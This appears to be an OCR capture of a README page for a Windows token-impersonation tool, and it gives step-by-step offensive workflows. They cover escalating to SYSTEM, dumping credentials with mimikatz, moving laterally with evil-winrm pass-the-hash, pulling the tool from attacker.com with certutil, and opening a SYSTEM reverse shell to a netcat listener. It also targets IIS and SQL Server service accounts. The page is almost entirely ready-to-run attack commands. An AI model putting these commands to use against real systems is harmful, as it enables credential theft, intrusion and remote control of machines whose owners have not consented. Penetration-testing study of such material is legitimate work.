 Workflow 5: Lateral Movement from Compromised Machine
Scenario: You have admin on Machine A, want to move to Machine B
powershell# On Machine A (compromised):

# Step 1: Get SYSTEM shell
.\TokenImpersonate.exe auto

# Step 2: In SYSTEM shell, dump credentials
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Step 3: Use credentials to move laterally
evil-winrm -i MachineB -u Administrator -H <NTLM_HASH>

# Step 4: On Machine B, escalate again
.\TokenImpersonate.exe auto

Workflow 6: Web Shell to Full Interactive Shell
Scenario: You have a web shell but want a proper reverse shell
powershell# Step 1: From web shell, upload TokenImpersonate.exe
certutil -urlcache -f http://attacker.com/TokenImpersonate.exe C:\Windows\Tasks\ti.exe

# Step 2: Start listener on Kali
nc -lvnp 4444

# Step 3: Execute from web shell
C:\Windows\Tasks\ti.exe brute Administrator shell 192.168.19.128 4444

# Result: Full reverse shell with SYSTEM privileges

Workflow 7: IIS/SQL Server Privilege Escalation
Scenario: You have code execution as IIS APPPOOL or MSSQL service account
powershell# Step 1: Check privileges
whoami
# IIS APPPOOL\DefaultAppPool or NT SERVICE\MSSQLSERVER

whoami /priv
# SeImpersonatePrivilege = Enabled ✓

# Step 2: Upload tool via current access method
# (web upload, xp_cmdshell, etc.)
